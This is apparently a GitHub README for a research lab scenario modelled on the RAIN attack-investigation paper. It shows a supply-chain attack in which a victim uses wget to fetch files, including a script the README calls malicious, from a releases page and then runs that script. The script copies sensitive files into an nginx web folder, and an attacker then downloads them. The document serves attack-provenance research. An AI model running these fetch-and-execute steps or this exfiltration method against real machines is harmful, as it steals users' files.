 ## Scenario

The victim user tries to download a series of packages for his environment via `wget`. However, one of the source URLs has been compromised by the attacker, in which the original package has been replaced with a malware `mal-package`. 

After execution, `mal-package` copies sensitive files from the victim's original directory to a shared folder, which provides web sources for the shared nginx server on victim's PC.

Finally, the attacker steals those files by connecting and requesting to victim's server.

### Similar scenario

[Rain: Refinable Attack Investigation with On-demand Inter-Process Information Flow Tracking](https://iisp.gatech.edu/sites/default/files/images/rain.pdf)

In their motivating example, the attacker compromised a distribution site of an firefox extension *FireFTP*, the original extension has been replaced with a malicious one.

## Implementation

### sources

Ubuntu 16.04: http://mirror.nus.edu.sg/ubuntu-ISO/16.04/    
nginx 1.4.0: http://nginx.org/download/nginx-1.20.2.tar.gz    
wget 1.20.3: https://ftp.gnu.org/gnu/wget/wget-1.20.3.tar.gz

### Deploy

**Nginx server (Victim IP1)**

* build and install
```
tar xzvf nginx-1.20.2.tar.gz && cd nginx-1.20.2
./configure --prefix=/home/chuqi/local/nginx --error-log-path=PATH=/home/chuqi/log/nginx/error.log
make && make install
```

* configure file

Download the `nginx.conf` file in this github dir.
```
mv nginx.conf /home/chuqi/local/nginx/conf/nginx.conf
```

* web sources

Download the folder `web-source` under this github directory.
```
cp web-source /home/chuqi
```

* deploy
```
help: /home/chuqi/local/nginx/sbin/nginx -h
start: /home/chuqi/local/nginx/sbin/nginx
stop: /home/chuqi/local/nginx/sbin/nginx -s stop
```

**Operations (Victim IP1)**

0. Start nginx server

```
/home/chuqi/local/nginx/sbin/nginx
```

1. Download several packages via wget 
```
wget https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/install.sh \
       https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/util.deb \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg1 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg2 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg3 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg4 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg5 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg6 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg7 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg8 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg9 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg10 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg11 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg12 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg13 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg14 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg15 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg16 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg17 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg18 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg19 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg20 \

chmod 777 install.sh
./install.sh
```
2. Execute malicious `install.sh`

```
./install.sh
```

**Exploit (Attacker IP2)**    

Access victim's web-server on attacker's browser:
```
IP1:8080/data/xxx
IP1:8080/images/xxx
```

